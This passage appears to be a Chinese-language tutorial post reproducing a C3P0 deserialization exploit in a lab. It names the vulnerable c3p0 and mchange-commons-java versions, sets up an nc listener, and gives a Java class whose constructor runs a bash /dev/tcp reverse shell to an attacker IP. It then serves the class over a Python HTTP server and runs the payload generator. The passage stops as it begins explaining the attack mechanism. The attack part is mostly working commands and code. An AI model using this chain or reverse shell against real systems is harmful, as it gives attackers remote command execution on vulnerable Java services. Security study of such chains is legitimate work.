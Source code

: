 * 配置环境

  * `com.mchange`:`c3p0:0.9.5.2`
  * `com.mchange`:`mchange-commons-java:0.2.11`
  * jdk1.8(非必须)

* 在12345端口打开监听，等待反弹shell连接，该连接用于获取远程shell

  ```shell
  nc -l 12345
  ```
  
* 准备被靶机通过Reference获取的恶意类

  ```java
  public class Exploit {
      public Exploit(){
          try {
              Runtime r = Runtime.getRuntime();
              Process p = r.exec(new String[]{"/bin/bash","-c","bash -i >& /dev/tcp/192.168.59.128/12345 0>&1"});
          } catch (Exception e) {
              System.out.println(e);
          }
      }
  }
  ```

* 将该类编译后放到任意目录，然后在该目录中启动一个HTTP服务等待靶机连接，该连接用于将恶意类返回给靶机

  ```
  python -m SimpleHTTPServer 9999
  ```

* 在IDEA中运行C3P0.java，配置Program 参数为`http://ip:port/:classname`

  * ip、port为用于返回恶意类的地址
  * classname为返回的恶意类的类名
  * 将参数在输入给C3P0之后，会以最后一个`:`拆分为两个参数
    * url：`http://ip:port/`
    * classname:`classname`

  ![image-20210805153009076](https://monkeydatabase.github.io/img/image-20210805153009076.png)

* 运行之后，首先用于返回恶意类的监听会显示一条HTTP请求日志

  <img src="https://monkeydatabase.github.io/img/image-20210805153915476.png" alt="image-20210805153915476" style="zoom:105%;" />

* 然后等待反弹shell的监听会捕获到来自靶机的webshell

  <img src="https://monkeydatabase.github.io/img/image-20210805154324070.png" alt="image-20210805154324070" style="zoom:90%;" />



## 攻击原理

1. 序列化时，构造Payload过程中首先调用了`PoolBackedDataSourceBase.writeObject()`，其中有个关键的点，它在序列化`connectionPoolDataSource`和`extensions`两个成员属性时，进行了如下操作

